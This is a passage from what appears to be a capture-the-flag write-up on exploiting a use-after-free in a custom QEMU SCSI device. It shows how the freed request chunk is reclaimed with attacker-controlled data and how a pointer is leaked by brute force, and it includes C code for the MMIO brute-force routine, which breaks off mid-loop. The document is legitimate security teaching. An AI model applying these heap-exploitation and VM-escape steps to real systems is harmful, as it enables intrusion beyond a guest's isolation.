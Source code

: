`completed->doesnt completed->canceled(UAF triggered)`  
Now we need to reclaim this UAFed area. `ctf_add_cmd_data` can be used to accomplish that.
```
void ctf_add_cmd_data(CTFState* state, uint64_t val) {
    addr = (opaque->register_a << 32) | opaque->register_b; // this actually involved shifting 32, but theyre ints, so did nothing...
    if (!(state->state & ST_DATA_WRITTEN_TO_DMA)) {
        if (!state->dma_buf) {
            state->dma_buf = malloc(val); // arbitrary size
            if (state->dma_buf)
                cpu_physical_memory_read(addr, state->dma_buf, val); // arbitrary data
        }
    }
}
```

We can know from IDA that the size of SCSIRequest structure is 0x198, so the val parameter of `ctf_add_cmd_data` should be 0x198.  
**BUT it is a litte different when I am trying to check the size in GDB**
![image](https://user-images.githubusercontent.com/67320649/113502352-7bb73200-955e-11eb-8210-283b926fe247.png)

1. set register_b to the physical addr (attr.)
2. call `ctf_add_cmd_data` to recalim the freed chunk

At this point we have state->cur_req pointing at our controlled data, and we also can get leaks with the byte by byte brute force discussed earlier. We can leak cur_req which tells us where our controlled data is, and a text leak for gadgets/functions.

If we proceed to send another request via ctf_process_req, it will call scsi_req_cancel() on our now controlled data. Let’s see what this does. I’ve pointed out the path I targeted.


# Exploit

1. Leak dma_read's address with bruteforcing.
2. Use the dangling pointer to create a fake structure.


# Scripting

We can just bruteforce 6 bytes to get the address of `ctf_dma_read`.

```
void set_pwd()
{
    mmio_write(0x4, 'B');
    mmio_write(0x4, 'L');
    mmio_write(0x4, 'U');
    mmio_write(0x4, 'E');
    for(int i = 0; i < 8; ++i){
        mmio_write(0x4, '\x00');
    }
    uint32_t pw_idx = mmio_read(0x14);
    //printf("pw_idx: %d\n", pw_idx);
}

void bruteforce_pointer()
{
    uint64_t pointer = 0;
    for(int t = 0; t < 6; t++){
        for(uint64_t v = 0; v < 256; v++){
            set_pwd();

            uint64_t tmp = pointer;
            for(int k = 1; k <= t; k++){
```